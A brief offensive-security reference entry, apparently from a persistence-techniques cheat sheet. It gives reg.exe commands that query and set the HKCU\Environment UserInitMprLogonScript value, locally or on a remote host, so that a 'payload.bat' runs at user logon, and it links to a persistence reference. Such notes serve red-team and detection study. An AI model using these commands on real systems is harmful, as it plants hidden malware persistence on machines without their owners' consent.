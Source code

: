 # Environment Key

```
C:\> reg.exe query [\\<IP>\]HKCU\Environment /v UserInitMprLogonScript
```

```
C:\> reg.exe add [\\<IP>\]HKCU\Environment /t REG_SZ /v UserInitMprLogonScript /d "C:\path\to\payload.bat" /f
```

---
## References

- [Persistence Info: User Init Mpr Logon Script](https://persistence-info.github.io/Data/userinitmprlogonscript.html)